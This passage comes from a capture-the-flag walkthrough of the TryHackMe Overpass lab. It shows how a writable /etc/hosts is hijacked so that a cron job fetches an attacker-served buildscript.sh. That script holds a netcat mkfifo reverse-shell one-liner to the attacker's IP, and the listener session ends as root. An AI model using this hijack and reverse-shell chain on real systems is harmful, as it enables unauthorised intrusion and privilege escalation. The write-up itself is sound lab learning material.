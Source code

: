 ```console
ff02::2 ip6-allrouters
james@overpass-prod:~$ ls -lsa /etc/hosts
4 -rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts

#modifying the /etc/hosts file
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.9.169.84 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

I then created a folder structure as server/downloads/buildscript.sh and put a reverse shell in it
I started a netcat listener and started a python server on port 80 in the server directory
after about 30 seconds i got a shell as root

```console
~/Documents/tryhackme/overpass-series/1/server ❯ tree
.
└── downloads
    └── src
        └── buildscript.sh

2 directories, 1 file
~/Documents/tryhackme/overpass-series/1/server ❯ cat downloads/src/buildscript.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.169.84 4444 >/tmp/f
~/Documents/tryhackme/overpass-series/1/server ❯ sudo python3 -m http.server 80
[sudo] password for nullcell:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.204.45 - - [09/Feb/2021 15:36:34] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -

##reverse shell
~/Documents/tryhackme/overpass-series/1 ❯ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.204.45 56120
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

pwned